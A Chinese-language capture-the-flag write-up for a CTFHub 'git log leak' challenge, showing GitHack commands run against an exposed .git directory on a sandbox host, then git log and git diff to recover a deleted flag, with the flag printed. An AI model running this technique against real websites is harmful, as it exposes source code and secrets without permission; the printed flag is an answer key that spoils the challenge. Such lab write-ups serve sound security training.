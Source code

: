 # CTFHUB_git log泄漏

## 题目内容

```
Where is flag?
```

## WriteUp
题目提示使用githack工具利用.git遗留，注意此工具是基于python2的(https://github.com/lijiejie/GitHack)



在根目录下存在/.git文件，直接使用githack利用

```
python GitHack.py http://challenge-68d59c441a213aa8.sandbox.ctfhub.com:10800/.git
```

结果如下

```
[+] Download and parse index file ...
50x.html
index.html
[OK] index.html
[OK] 50x.html
```

但是很明显，这里面没东西，但是既然是git log，那就可能是存在历史版本里面

我们先clone下来这个.git,这个需要使用另一个githack(https://github.com/BugScanTeam/GitHack)

用法和上面的githack相同，但是会将项目clone在在dist目录下

我们进入该目录执行

```
git log
```

得到结果

```
commit 1e4828c27d3714a9ddef87f82d52c96820cc4703 (HEAD -> master)
Author: CTFHub <sandbox@ctfhub.com>
Date:   Sat Aug 21 15:40:59 2021 +0000

    remove flag

commit 04630c4080b903e3d7b39c44eb8e889a3b4c7818
Author: CTFHub <sandbox@ctfhub.com>
Date:   Sat Aug 21 15:40:59 2021 +0000

    add flag

commit 80cbef21d7d7aa02d0195af1e73160fea03c4faa
Author: CTFHub <sandbox@ctfhub.com>
Date:   Sat Aug 21 15:40:59 2021 +0000

    init
(END)
```

在commit04630c4080b903e3d7b39c44eb8e889a3b4c7818中，信息为add flag,所以我们查看差异

```
git diff 04630
```

得到flag

```
diff --git a/32391726814615.txt b/32391726814615.txt
deleted file mode 100644
index 8216212..0000000
--- a/32391726814615.txt
+++ /dev/null
@@ -1 +0,0 @@
-ctfhub{2c106a551563b0c6319cf042}
diff --git a/50x.html b/50x.html
deleted file mode 100644
index 9071e0a..0000000
--- a/50x.html
+++ /dev/null
@@ -1,21 +0,0 @@
-<!DOCTYPE html>
-<html>
-<head>
-<title>Error</title>
-<style>
-    body {
-        width: 35em;
-        margin: 0 auto;
-        font-family: Tahoma, Verdana, Arial, sans-serif;
-    }
-</style>
-</head>
-<body>
-<h1>An error occurred.</h1>
-<p>Sorry, the page you are looking for is currently unavailable.<br/>
```









